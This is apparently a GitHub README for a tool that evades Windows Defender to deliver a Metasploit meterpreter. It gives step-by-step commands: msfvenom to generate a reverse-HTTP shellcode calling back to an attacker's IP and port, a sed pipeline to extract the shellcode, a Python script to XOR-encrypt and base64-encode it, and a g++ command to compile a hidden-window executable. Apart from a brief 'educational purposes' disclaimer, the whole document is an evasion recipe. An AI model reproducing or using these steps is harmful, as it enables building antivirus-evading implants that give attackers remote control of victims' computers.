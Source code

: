 ## Bypassing-WindowsDefender

The aim of the project is to demonstrate that it is still possible to bypass Windows Defender to obtain a meterpreter. 


This project is for educational purposes only and should not be used for illegal or malicious activities.

### External library used in this project

- https://github.com/ReneNyffenegger/cpp-base64

### Creating stageless payload

```bash
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<IP> LPORT=<PORT> -f c -o main.c
```

### Copying our shellcode to the clipboard

```bash
sed -E 's/"\\/0/g;s/"$/,/g;s/\\x/, 0x/g;s/";//g;/unsigned char [A-Za-z]+\[\] =/d' main.c | xclip -sel clip
```

- Create a file called `payload.txt` in the same folder where the `tool.py` script is located and paste your shellcode there.

### Running tool.py

```powershell
python3 tool.py
```

- Copy the subtraction value and add it to main.cpp in `int subtract = [HERE];`. (This is just to avoid using the xor key directly in the code, you can remove it if you want)

- Remember that you can change the value of the `xor_value` variable in the `tool.py` code.
- The tool will create a file called `payload.b64`, which will contain your encrypted and base64-encoded shellcode that you must replace in the main.cpp.

### Compilation command

```powershell
g++.exe -m64 -o app.exe -lkernel32 -static main.cpp base64.cpp -mwindows -I . -D_WIN32_WINNT=0x0601
```

Make sure you have `base64.h` and `base64.cpp` in your project.

### Demo video

https://user-images.githubusercontent.com/89106058/237018521-ff5d43e9-b833-421f-9a83-e47385bf5a0c.mp4


